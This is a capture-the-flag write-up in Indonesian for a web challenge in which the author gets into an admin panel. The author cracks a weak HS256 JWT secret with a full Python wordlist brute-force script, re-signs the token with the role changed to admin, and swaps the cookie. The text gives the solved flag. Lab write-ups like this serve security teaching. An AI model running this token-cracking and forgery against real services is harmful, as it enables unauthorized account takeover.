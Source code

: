 ## TokoRoti
**Difficulty:** Easy-Medium
**Author:** maul
**URL:** [http://ctf.noctralupra.space:10305](http://ctf.noctralupra.space:10305)

### Description
NoctraLupra bikin usaha toko roti wkwkwk

### Solution
![alt text](image.png)

Saya mulai dengan membuka URL yang diberikan dan melakukan pendaftaran akun baru (register) lalu login seperti biasa. Setelah berhasil login, web menampilkan panel admin yang terkunci pada dashboard. Dugaan awal panel admin bisa diakses dengan mengubah cookie payload yang dibuat melalui jwt. 

![alt text](image-1.png)

Dari sini saya menaruh token tersebut ke jwt.io untuk menganalisis header dan payload: header menunjukkan penggunaan algoritma HMAC-SHA256 (`HS256`) dan payload berisi `peran` yang bernilai `karyawan`.

```python
import jwt
import sys
from tqdm import tqdm

def load_wordlist(path):
    with open(path, 'r', encoding='latin-1') as f:
        return [line.strip() for line in f.readlines()]

def jwt_bruteforce(token, wordlist_path, algorithm='HS256'):
    wordlist = load_wordlist(wordlist_path)
    header = jwt.get_unverified_header(token)

    print(f"[i] JWT Algorithm: {header.get('alg', algorithm)}")
    print(f"[i] Total passwords to try: {len(wordlist)}")

    for secret in tqdm(wordlist, desc="Bruteforcing"):
        try:
            payload = jwt.decode(token, secret, algorithms=[algorithm])
            print("\n[+] Secret key found:", secret)
            print("[+] Decoded payload:", payload)
            return secret
        except jwt.InvalidSignatureError:
            continue
        except jwt.DecodeError:
            continue
        except Exception as e:
            print("\n[!] Unexpected error:", e)
            break

    print("\n[-] Secret key not found.")
    return None

if __name__ == '__main__':
    if len(sys.argv) != 3:
        print(f"Usage: python {sys.argv[0]} <jwt_token> <path_to_wordlist.txt>")
        sys.exit(1)

    jwt_token = sys.argv[1]
    wordlist_path = sys.argv[2]
    jwt_bruteforce(jwt_token, wordlist_path)
```

Langkah berikutnya, saya mencoba mencari tahu apakah server menandatangani JWT dengan secret yang dapat ditebak. Untuk itu saya menjalankan script bruteforce JWT menggunakan wordlist `rockyou.txt`. Script tersebut memeriksa setiap kata di wordlist dengan mencoba melakukan `jwt.decode(token, secret, algorithms=[algorithm])`; ketika decode berhasil berarti secret yang benar ditemukan.

![alt text](image-2.png)

Dengan begitu, proses bruteforce berhasil menemukan secret JWT: `birahi`. Penemuan ini mengindikasikan server hanya memverifikasi signature HMAC menggunakan kunci yang dapat ditebak dari dictionary — sebuah kelemahan umum jika kunci tidak acak/kuat.

![alt text](image-3.png)

Dari sini saya membuat token baru yang mengubah klaim `peran` dari `karyawan` menjadi `admin` dan men-sign kembali menggunakan secret `birahi` menggunakan jwt.io. 

![alt text](image-4.png)

Langkah berikutnya saya mengganti token yang dipakai pada web. Token disimpan sebagai cookie di field token_akses, lalu ganti nilai cookienya dengan token baru dan mengakses panel admin. 

![alt text](image-5.png)

Dari akses panel admin, server merespons dengan halaman khusus admin yang berisi flag.

### Flag
NCLPS1{l3mah_4m4t_jwtnya_hahaha}
